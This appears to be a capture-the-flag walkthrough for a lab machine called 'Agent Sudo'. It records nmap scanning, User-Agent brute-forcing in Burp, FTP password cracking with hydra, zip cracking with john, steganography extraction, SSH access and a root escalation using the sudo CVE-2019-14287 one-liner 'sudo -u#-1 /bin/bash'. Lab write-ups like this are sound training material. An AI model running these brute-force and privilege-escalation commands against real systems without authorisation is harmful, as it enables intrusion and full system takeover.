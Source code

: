 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	$ export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	$ export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

		'''
		21/tcp open  ftp     vsftpd 3.0.3
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			http-server-header: Apache/2.4.29 (Ubuntu)
			http-title: Annoucement
		'''

---------------------
	Visiting Site
---------------------

	'''
	Dear agents,

	Use your own codename as user-agent to access the site.

	From,
	Agent R 
	'''
Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


### Possible Users ###

- Chris
- R?
- J?


# Intrusion #

### ChrisFTP ###

- ftp $IP</br>
	Name: chris</br>
	Pass: crystal

	> ftp > ls

		'''
		-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
		-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
		-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
		'''
	
	> ftp > mget To_agentJ cute-alien.jpg cutie.png


- To_agentJ.txt	

		'''
		Dear agent J,

		All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

		From,
		Agent C
		'''


### Steganography ###

- binwalk cutie.png -e
- ls _cutie.png.extracted

		'''
		365  365.zlib  8702.zip  To_agentR.txt
		'''
	> 8702.zip is password protected</br>(see Passwords)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

		'''
		Agent C,

		We need to send the picture to 'QXJlYTUx' as soon as possible!

		By,
		Agent R
		'''
	> QXJlYTUx</br>(see Passwords)


- steghide extract -sf cute-alien.jpg > message.txt
	> pass: Area51</br>(see Passwords)
	

- message.txt

		'''
		Hi james,

		Glad you find this message. Your login password is hackerrules!

		Don't ask me why the password look cheesy, ask agent R who set this password for you.

		Your buddy,
		chris
		'''


### SSH ###

- ssh james@$IP</br>
	pass: hackerrules!
	> ls

		'''
		Alien_autospy.jpg  user_flag.txt
		'''

user flag Found


# PrivEsc #

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
		"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"</br>
		
		CVE: 2019-14287
		sudo -u#-1 /bin/bash

- root gained

root flag found


# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	> hydra -l chris -P rockyou.txt $IP ftp -o chris_pass</br>
	  pass: crystal

- 8702.zip
	> zip2john steno/_cutie.png.extracted/8702.zip > 8702john</br>
	  john 8702john</br>
	  pass: alien

- QXJlYTUx
	> CyberChef</br>
	  base64: Area51

---------------
	Exposed
---------------

- message.txt
	> user: james</br>
 	pass: hackerrules!

